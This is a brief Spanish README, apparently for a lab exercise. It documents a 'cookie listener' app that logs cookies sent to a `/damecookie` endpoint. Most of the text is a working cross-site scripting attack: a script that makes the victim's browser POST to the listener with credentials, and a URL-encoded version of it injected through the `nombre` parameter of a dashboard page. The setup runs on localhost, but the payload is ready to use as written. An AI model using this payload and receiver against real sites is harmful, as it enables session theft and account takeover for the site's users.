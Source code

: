 # Cookie listener
Esta app loguea lasn cookies de los requests que recibe en `/damecookie`

## Correr app
`npm start`

## Inyectar script
`var xhr = new XMLHttpRequest();xhr.open("POST",'http://localhost:4000/damecookie');xhr.withCredentials = true;xhr.send()`

http://localhost:3000/html/home/user/dashboard/index.html?nombre=admin%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest();xhr.open(%22POST%22,%27http://localhost:4000/damecookie%27);xhr.withCredentials%20=%20true;xhr.send()%3C/script%3E
